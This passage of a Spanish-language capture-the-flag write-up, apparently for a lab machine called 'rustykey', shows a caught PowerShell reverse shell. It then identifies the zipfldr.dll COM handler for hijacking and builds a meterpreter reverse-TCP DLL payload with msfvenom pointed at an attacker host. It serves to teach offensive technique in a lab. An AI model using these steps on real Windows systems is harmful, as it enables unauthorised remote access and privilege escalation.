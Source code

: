 Ahora si volvemos a donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [10.10.14.79] from (UNKNOWN) [10.10.11.75] 60836
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
rustykey\ee.reed
```

Veremos que ha funcionado, por lo que seremos dicho usuario.

## Escalate user MM.TURNER

Ahora siendo dicho usuario recordemos que estamos en el grupo `SUPPORT` el cual puede modificar el registro y funciones relacionadas con la compresión/descompresión.

### COM Hijacking

Vamos a Identificar `COM objects` usados por aplicaciones privilegiadas de esta forma:

```powershell
Get-ItemProperty "Registry::HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\InprocServer32" -Name "(default)"
```

Info:

```
(default)    : C:\Windows\system32\zipfldr.dll
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\Inpro
               cServer32
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}
PSChildName  : InprocServer32
PSProvider   : Microsoft.PowerShell.Core\Registry
```

El `CLSID` `{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}` corresponde a **zipfldr.dll** (Compressed Folders Handler). Este se ejecuta cuando se abren archivos ZIP en el Explorador de Windows.

Vamos a generar un `payload` malicioso que sea una `.dll` con `msfvenom` para poder aprovechar este `Hijacking 7-Zip`.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ATTACKER> LPORT=<PORT> -f dll -o 7zhack.dll
```

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: 7zhack.dll
```
